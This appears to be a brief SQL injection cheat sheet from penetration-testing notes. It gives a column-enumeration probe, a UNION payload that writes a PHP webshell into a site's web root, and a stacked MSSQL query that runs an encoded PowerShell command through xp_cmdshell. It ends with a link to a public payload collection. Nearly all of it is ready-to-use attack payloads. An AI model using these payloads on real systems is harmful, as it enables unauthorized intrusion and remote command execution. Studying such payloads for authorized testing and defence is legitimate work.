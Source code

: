 Enumerate no. of columns for `UNION`-based payload:
```sql
' ORDER BY <Column no. to test>-- //
```

Inject webshell into PHP site via `UNION`:
```sql
' UNION SELECT "<?php system($_GET['cmd']);?>", null, null, null, null INTO OUTFILE "/var/www/html/tmp/webshell.php" -- //
```

Example stacked query that worked against a machine:
```sql
'; EXECUTE xp_cmdshell 'powershell -enc JABjAGwAaQBl...AKAApAA==';--
```

For examples of the above and more check out PayloadAllTheThings: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MSSQL%20Injection.md